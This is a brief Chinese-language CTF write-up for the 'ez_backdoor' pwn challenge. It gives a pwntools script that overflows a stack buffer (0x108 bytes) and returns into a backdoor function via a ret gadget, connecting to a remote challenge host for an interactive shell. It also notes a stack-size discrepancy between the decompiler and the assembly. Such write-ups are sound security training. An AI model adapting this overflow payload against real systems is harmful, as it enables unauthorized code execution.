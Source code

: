 [[HNCTF 2022 WEEK2]ez_backdoor | NSSCTF](https://www.nssctf.cn/problem/2999)
![[Pasted image 20240901150839.png]]
![[Pasted image 20240901150849.png]]
普通的ret2text，有backdoors，没什么好说的
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./ez_backdoor')
local = False
if local:
    p = process('./ez_backdoor')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote("node5.anna.nssctf.cn", 27129)

backdoor = 0x4011CA
ret = 0x40101a
rdi = 0x4012c3
offset = 0x100 + 8
payload = b'A' * offset + p64(ret) + p64(backdoor)
p.recvuntil('challenge')
p.sendline(payload)
p.interactive()
```
![[Pasted image 20240901150952.png]]
虽然这边是显示108h的空间![[Pasted image 20240901151025.png]]
但汇编这边显示是100h，做的时候还是注意一下